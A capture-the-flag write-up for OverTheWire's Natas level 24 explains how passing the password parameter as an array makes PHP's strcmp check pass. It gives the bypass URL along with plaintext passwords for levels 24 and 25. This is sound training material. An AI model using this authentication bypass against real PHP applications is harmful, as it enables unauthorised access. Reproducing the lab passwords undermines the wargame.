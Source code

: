 # Natas Level 24
```bash
Username: natas24
Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
URL:      http://natas24.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24.png" />
    <div align="center">Natas 24</div>
</figure>

And the [source code](http://natas24.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24-view-sourcecode.png" />
    <div align="center">Natas 24 - View sourcecode</div>
</figure>

The script is:
```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

In first look, we need to guess the secret password.

Searching for vulnerabilities in *strcmp* we found "[Array Injection](https://marcosvalle.github.io/ctf/php/2016/05/12/php-comparison-vlun.html)"

We just need to send array as the GET parameter:
[Sending](http://natas24.natas.labs.overthewire.org/?passwd[]=1&amp;passwd[]=2):
```bash
http://natas24.natas.labs.overthewire.org/?passwd[]=1&passwd[]=2
```

We get:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24-pwned.png" />
    <div align="center">Natas 24 - PWNed</div>
</figure>

We got the password for the next level: **GHF6X7YwACaYYssHVY05cFq83hRktl4c**